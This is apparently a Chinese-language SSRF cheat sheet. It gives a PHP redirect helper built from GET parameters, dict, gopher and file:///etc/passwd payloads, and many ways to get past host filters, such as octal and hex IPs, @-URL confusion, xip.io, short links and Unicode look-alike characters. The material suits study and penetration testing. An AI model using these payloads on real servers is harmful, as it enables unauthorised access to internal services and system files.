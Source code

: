 ~~~php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
~~~

### 协议利用

- Dict 协议

  ```
  dict://fuzz.wuyun.org:8080/helo:dict
  ```

- Gopher 协议

  ```
  gopher://fuzz.wuyun.org:8080/gopher
  ```

- File 协议

  ```
  file:///etc/passwd
  ```

### 绕过姿势 

1. 更改 IP 地址写法 例如`192.168.0.1`

   - 8 进制格式：`0300.0250.0.1`
   - 16 进制格式：`0xC0.0xA8.0.1`
   - 10 进制整数格式：`3232235521`
   - 16 进制整数格式：`0xC0A80001`
   - 还有一种特殊的省略模式，例如`10.0.0.1`这个 IP 可以写成`10.1`

2. 利用 URL 解析问题 在某些情况下，后端程序可能会对访问的 URL 进行解析，对解析出来的 host 地址进行过滤。这时候可能会出现对 URL 参数解析不当，导致可以绕过过滤。 例如：

   - `http://www.baidu.com@192.168.0.1/`与`http://192.168.0.1`请求的都是`192.168.0.1`的内容

   - 可以指向任意 ip 的域名`xip.io`：`http://127.0.0.1.xip.io/`==>`http://127.0.0.1/`

   - 短地址`http://dwz.cn/11SMa`==>`http://127.0.0.1`

   - 利用句号`。`：`127。0。0。1`==>`127.0.0.1`

   - 利用 Enclosed alphanumerics

     ```
     ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
     List:
     ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
     ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
     ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
     ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
     Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
     ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
     ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
     ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
     ```
